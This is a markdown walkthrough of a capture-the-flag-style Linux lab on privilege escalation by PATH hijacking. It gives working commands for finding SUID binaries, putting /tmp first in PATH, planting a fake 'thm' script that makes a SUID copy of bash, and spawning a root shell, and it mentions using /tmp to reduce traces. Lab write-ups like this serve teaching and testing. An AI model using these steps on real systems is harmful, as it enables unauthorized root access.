








# 🔐 Privilege Escalation: PATH Hijacking

PATH Hijacking is a privilege escalation technique that abuses the `PATH` environment variable.

In Linux, `PATH` is an environment variable that tells the operating system where to search for executable files.

When a command is executed without using an absolute path, Linux searches the directories listed in the `PATH` variable in order.

If a writable directory appears before system directories in `PATH`, an attacker may hijack command execution by placing a malicious executable with the same name.

---
## 🔍 Checking the PATH Variable

To display the value of any environment variable, use:

```bash
echo $<VARIABLE_NAME>
```

Example:

```bash
echo $PATH
```



---
## 🚀 Modifying the PATH Variable

We modified the `PATH` variable to prioritize the `/tmp` directory:

```bash
export PATH=/tmp:$PATH
```




---

## 📌 Why Use the `/tmp` Directory?

### ✔ Permissions
`/tmp` is world-writable, allowing any user to create and execute files.

### ✔ Stealth
Files in `/tmp` are often deleted after reboot, which helps reduce traces.

---

## 🔍 Finding Vulnerable SUID Files

We searched for SUID files using:

```bash
find / -type f -perm -4000 -ls 2>/dev/null | grep -v "/snap"
```

We used:

```bash
grep -v "/snap"
```

to exclude unnecessary paths related to Snap packages.



---
## 📂 Discovering the Vulnerable Binary

During enumeration, we found the following file:

```bash
/home/murdoch/test
```

Navigate to its directory and inspect the related source file `thm.py`.



---
## 🔎 Analyzing the Source Code

Inside `thm.py`, we discovered that the script calls the command:

```bash
thm
```

without using an absolute path.

This means the system will search for `thm` using the directories listed in the `PATH` variable.



---
## ✍️ Creating the Malicious File

We moved to `/tmp` and created a malicious executable named `thm`.

```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

The `+s` option sets the SUID bit, allowing the binary to run with elevated privileges.





---
## 🚀 Triggering the Exploit

Execute the vulnerable `test` binary:

```bash
/home/murdoch/test
```

This creates a SUID-enabled bash binary named `rootbash`.


---
## 👑 Getting Root Access

Run the following command:

```bash
./rootbash -p
```

A root shell is spawned successfully.


